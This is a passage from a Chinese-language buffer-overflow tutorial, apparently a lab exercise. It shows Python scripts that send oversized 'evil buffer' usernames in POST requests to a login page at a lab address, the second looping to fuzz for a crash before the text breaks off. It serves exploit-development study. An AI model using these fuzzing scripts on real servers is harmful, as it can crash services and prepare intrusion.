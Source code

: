 ![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605343962940-caeaaf3e-f101-4985-80e3-de3a767773d6.png)

因为是针对缓冲区溢出，所以文中直接说了缓冲区溢出在用户名这里，然后写一个脚本来进行请求测试。

```
#! /usr/bin/python3
import socket

try:
    print("Sending evil buffer...")
    size = 100
    inputBuffer = "A"*size
    buffer = ""
    content = "username="+inputBuffer+"&password=A"
    buffer += "POST /login HTTP/1.1\r\n"
    buffer += "Host: 10.211.55.8\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Origin: http://10.211.55.8\r\n"
    buffer += "Connection: close\r\n"
    buffer += "Referer: http://10.211.55.8/login\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "Content-Length: " + str(len(content)) + "\r\n"
    buffer += "\r\n"
    buffer += content

    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.211.55.8",80))
    s.send(buffer.encode())                                                                                  
    s.close()                                                                                       
    print("Done!")                                                                                  
except Exception as e:                                                                              
    print(e)                                                                                        
    print("something wrong") 
```

上面测试成功之后，我们将这个size做一个循环，逐渐提高，然后到达一个度，之后就中断了发包：

```
#! /usr/bin/python3
import socket
import time
import sys

size = 100
while(size < 1000):
    try:
        print("Sending evil buffer...")
        inputBuffer = "A"*size
        buffer = ""
        content = "username="+inputBuffer+"&password=A"
        buffer += "POST /login HTTP/1.1\r\n"
        buffer += "Host: 10.211.55.8\r\n"
        buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0\r\n"
```